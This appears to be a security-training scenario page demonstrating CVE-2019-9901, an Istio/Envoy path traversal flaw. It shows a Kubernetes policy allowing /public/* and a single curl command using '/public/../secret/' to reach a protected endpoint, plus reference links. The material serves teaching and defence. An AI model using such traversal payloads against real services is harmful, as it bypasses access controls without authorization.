 # CVE-2019-9901 - Istio/Envoy Path traversal

This scenario demos has been taken from [https://github.com/eoftedal/writings/blob/master/published/CVE-2019-9901-path-traversal.md](https://github.com/eoftedal/writings/blob/master/published/CVE-2019-9901-path-traversal.md). Thanks to [Erlend Oftedal](https://github.com/eoftedal)

A simple project with a web server and deployed it on Kubernetes. The web application had two endpoints `/public/` and `/secret/`. Added an authorization policy which tried to grant access to anything below `/public/`:

```yaml
  rules:
  - services: ["backend.fishy.svc.cluster.local"]
    methods: ["GET"]
    paths: ["/public/*"]
```

Then used standard path traversal from curl:

```bash
curl -vvvv --path-as-is  "http://backend.fishy.svc.cluster.local:8081/public/../secret/"
```

And was able to reach `/secret/`.


### Reference

* [Security postmortem for CVE-2019-9900, CVE-2019-9901](https://github.com/envoyproxy/envoy/blob/master/security/postmortems/cve-2019-9900.md)
* [Announcing Istio 1.1.2 with Important Security Update](https://istio.io/blog/2019/announcing-1.1.2/#vulnerability-impact)
* [CVE-2019-9901 - Istio/Envoy Path traversal](https://github.com/eoftedal/writings/blob/master/published/CVE-2019-9901-path-traversal.md)
* [Envoy Proxy — high severity vulnerabilities that can lead to exposure of unauthorized services](https://medium.com/solo-io/envoy-proxy-high-severity-vulnerabilities-that-can-lead-to-exposure-of-unauthorized-services-e5af25b022de)